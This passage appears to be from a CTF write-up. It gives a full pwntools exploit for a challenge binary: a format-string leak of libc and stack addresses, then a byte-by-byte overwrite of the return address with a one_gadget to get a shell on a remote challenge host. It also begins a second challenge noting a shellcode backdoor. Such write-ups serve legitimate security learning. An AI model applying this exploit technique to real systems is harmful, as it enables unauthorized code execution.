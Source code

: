 ```py
libc = ELF('libc.so.6')

offset = 6

sh = process('./echo')
sh = remote('34.141.67.197', 31804)

sh.sendline(b'AAAA%' + str(15).encode() + b'$pBBBB')
ret_main = int(sh.recvuntil(b'BBBB').split(b'AAAA')[1].split(b'BBBB')[0][2:], 16)

print(hex(libc.symbols['__libc_start_main']))
base = ret_main - 0x24083

sh.sendline(b'AAAA%' + str(12).encode() + b'$pBBBB')
stack_addr = int(sh.recvuntil(b'BBBB').split(b'AAAA')[1].split(b'BBBB')[0][2:], 16) + 8

one_gadgets = [0x4f2c5, 0x4f322, 0x10a38c]
one_gadgets = [0xe3afe, 0xe3b01, 0xe3b04]

one_gadget = base + one_gadgets[1]

#def get_payload(where, what):
    #payload = + p64(where)

for i in range(8):
    payload = fmtstr_payload(offset, {stack_addr+i: (one_gadget>>(i*8))&0xFF}, write_size='byte')
    print(payload, len(payload))

    sh.sendline(payload)

print(hex(base), hex(stack_addr), hex(one_gadget))

time.sleep(10)

#gdb.attach(sh)

sh.interactive()
```

Flag: **CTF{f020a36c8cbf8c8647ec07ffe1b1232234d4c3d91792ba7640eb0810c932a3ce}**

<a name="minipwn2"></a>
## minipwn2 (370 pts, 14 solves) - Pwn

Description:
```
Just a regular pwn!

Flag Format: ROCSC{sha256}
```

The service has a shellcode backdoor if the payload starts with 12 34.
